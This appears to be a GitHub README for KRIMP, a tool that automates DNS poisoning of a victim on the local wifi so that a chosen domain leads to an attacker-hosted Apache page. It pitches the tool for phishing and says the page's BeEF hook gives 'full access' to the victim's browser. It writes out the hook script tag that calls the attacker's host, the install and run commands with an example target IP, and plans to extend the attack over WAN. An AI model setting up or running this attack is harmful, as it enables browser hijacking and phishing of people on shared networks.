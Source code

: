 # KRIMP
```
                   ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
                   ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
                   ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
                  ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
                 ▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
                   ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
                   ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
                   ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
                   ▀           ███    ███                                   
  ```
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered. 

This tool automates the process of DNS poisoning a target on your wifi, by doing this you can make a custom URL and redirecting your IP, which is hosting apache, to this URL. Once the target is on this page, you will have full access to their browser because of the beEF hook.  

**This tool is in its alpha stage, more automation will come**

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:

`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap OR run the install script, it will do everything for you.

## Running the script


`git clone https://github.com/SysGerm/krimp.git`

`chmod +x install.sh`

`./install.sh`

`chmod +x krimp.sh`

`./krimp.sh DOMAIN LOCAL-TARGET-IP`

Example: 

`./krimp.sh sysgerm.com 192.168.0.4`
### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

#### Responsibility
I am not responsible for any actions u take with this tool.

